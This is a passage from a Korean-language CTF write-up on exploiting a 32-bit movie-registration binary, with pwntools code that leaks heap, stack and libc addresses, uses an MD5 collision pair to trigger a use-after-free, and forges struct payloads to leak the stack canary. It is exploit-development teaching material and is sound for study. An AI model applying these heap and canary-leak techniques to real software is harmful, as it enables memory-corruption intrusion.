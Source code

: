 ``` python
    broadcast(s, 1, 0, 1, 7777)
    r = l.recv()
```
이렇게 `movie_1`을 0x3ff, `movie_2`를 0x400으로 생성하고 `movie_2`의 내용을 `\xff`으로 만들어서 한 바이트도 복사를 하지 않게끔 구성하면, `stack_buf`로부터 0x3ff 바이트의 오염되지 않은 stack leak이 가능하다.

여기에서 내용을 그냥 출력해주는 것이 아닌 `broadcast`로 IP, port를 지정해서 socket으로 보내주기 때문에 `pwntools`의 `listen()`을 사용했다.
``` bash
[+] Trying to bind to :: on port 7777: Done
[+] Waiting for connections on :::7777: Got connection from ::ffff:172.17.0.2 on port 39690
[*] heap : 0x5655a000
[*] stack : 0xffffdc48
[*] libc : 0xf7c2b000
```
이제 leak된 값들을 바탕으로 UAF를 trigger해야하는데, 사실상 같은 취약점을 사용하지만 충돌쌍을 재활용하는 것이 어려우므로 새로운 충돌쌍을 사용했다.
``` python
    # md5 collision - cee9a457e790cf20d4bdaa6d69f01e41
    b1 = bytes.fromhex('0e306561559aa787d00bc6f70bbdfe3404cf03659e704f8534c00ffb659c4c8740cc942feb2da115a3f4155cbb8607497386656d7d1f34a42059d78f5a8dd1ef')
    b2 = bytes.fromhex('0e306561559aa787d00bc6f70bbdfe3404cf03659e744f8534c00ffb659c4c8740cc942feb2da115a3f415dcbb8607497386656d7d1f34a42059d78f5a8dd1ef')

    # free(movie_1)
    register(s, b1, 1, 0x4, b"BBBB")                # index 3
    payload = b"C" * 0x400                          # buf
    payload += p32(0x400)                           # size
    payload += p32(heap + 0x11f8)                   # contents, movie_1
    register(s, b2, 1, len(payload), payload)       # index 4

    broadcast(s, 3, 0, 1, 7777)
```
위 payload과 같이 `free`를 위해 `size`를 0x400으로 조작했고 `movie_1`을 free하기 위해 `contents` 값을 조작했다.

이 `free`된 chunk를 다시 할당받기 위해서,
``` python
    # canary leak
    payload = b"DDDD"                   # size
    payload += b"\xff\xff\xff\xff"      # category
    payload += p32(stack + 0xa5)        # name, canary
    payload += p32(heap + 0x16a0)       # next, movie_2
    payload += b"EEE\x00"               # prev
    register(s, payload, 1, 0x4, b"XXXX")           # index 5
```
`name`이 `struct movie`와 같은 구조가 되게끔 payload를 작성해서 `register`를 실행했다.

이 때 `category` 값을 그냥 1로 하려고 했는데 `strcpy(movie_new->name, src);`를 통해서 `name`에 복사되기 때문에 중간에 `\x00`이 있으면 뒤 payload가 짤리게 된다.

그렇다고 `category` 값을 0x41414141과 같은 dummy 값으로 채우면 leak을 위해서 실행하는 `list`에서 OOB 에러가 발생한다.
``` c
int list_1821()
{
  ...
  while ( movie_ptr )
  {
    printf("%d )\nTitile : %s\nCategory : %s\n", count + 1, movie_ptr->name, category_list_40B0[movie_ptr->category]);
    movie_ptr = (struct movie *)movie_ptr->next_movie;
    ++count;
  }
  ...
}
```
그래서 -1을 의미하는 `\xff\xff\xff\xff`로 덮어서 두 제약을 한 번에 해결했다.
